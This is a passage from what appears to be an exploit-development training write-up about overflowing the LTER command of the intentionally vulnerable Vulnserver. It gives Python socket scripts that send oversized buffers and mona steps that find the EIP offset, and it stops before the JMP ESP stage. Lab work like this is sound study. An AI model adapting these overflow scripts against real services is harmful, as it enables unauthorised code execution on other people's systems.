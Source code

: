```python

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

If we use this on Vulnserver, we get the following output from Immunity:

![](/assets/images/CTP/LTERtake2.JPG)

This looks promising. We have overwritten EIP. Time to use mona to get a pattern created so we can determine the offset. After
+ using `!mona pc 3000` to create a `pattern.txt` file,
+ making that ASCII string our payload,
+ taking the overwritten EIP value and feeding it to mona with `!mona po <EIP after overflowing with mona pattern>`

We get an offset of 2002. Let's confirm we have our offsets correct. 
```python
#!/usr/bin/python

import socket
import os
import sys

#poppopret: 6250172B

host = "192.168.1.201"
port = 9999

buffer = "A" * 2002
buffer += "BBBB"
buffer += "C" * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

![](/assets/images/CTP/LTERyepagain.JPG)

It looks like our offsets were correct. We have `BBBB` in our EIP as planned and our beautiful `C` buffer afterwards. 

## Finding a Suitable JMP ESP
